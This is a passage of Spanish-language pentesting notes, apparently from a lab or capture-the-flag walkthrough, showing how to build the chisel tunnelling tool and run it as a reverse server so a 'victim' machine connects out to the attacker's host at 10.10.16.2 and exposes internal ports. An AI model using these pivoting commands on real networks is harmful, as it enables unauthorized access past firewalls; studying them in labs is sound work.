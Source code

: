 **Problema de transferencia:** el archivo se transfería bien pero no lograba ejecutarse

**Solución** usar el siguiente comando para compilar el archivo en la máquina atacante y transferir

```bash
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -o chisel
```

Resultado:

```bash
Usage: chisel [command] [--help]

  Version: 0.0.0-src (go1.19.8)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```

Explicación: nos trasferimos el archivo chisel desde nuestra máquina atacante 

Acción: *primero en nuestra máquina atacante* 

```bash
./chisel server --reverse -p 1234
```

Resultado:

```bash
2025/05/22 02:05:28 server: Reverse tunnelling enabled
2025/05/22 02:05:28 server: Fingerprint L4eLVkTfkhZZ7uNZhywaA3WmRkszjF9pMXF4j+068bE=
2025/05/22 02:05:28 server: Listening on http://0.0.0.0:1234
```

Explicación: Este comando se utiliza para **iniciar un servidor Chisel en modo reverse**, lo cual es especialmente útil en entornos de pentesting donde **la máquina víctima no puede aceptar conexiones entrantes** (por ejemplo, está detrás de NAT o firewall), pero **sí puede establecer conexiones salientes** hacia tu máquina atacante

---

`server` Este argumento indica que quieres iniciar **el modo servidor** de Chisel. El servidor es el que gestiona las conexiones y permite redirigir puertos o túneles.

`--reverse` Este es **el modo reverse proxy**. Activa el modo en el que:

- La **víctima se conecta como cliente a este servidor**.
    
- El servidor "escucha" y acepta túneles reversos **desde la víctima hacia el atacante**.
    
- Ideal para cuando **la víctima no puede recibir conexiones entrantes**, pero **puede hacer peticiones salientes** (como a tu máquina Parrot).
    

**Ejemplo práctico**: si la víctima hace `chisel client 10.10.16.2:1234 R:8080:127.0.0.1:80`, entonces:
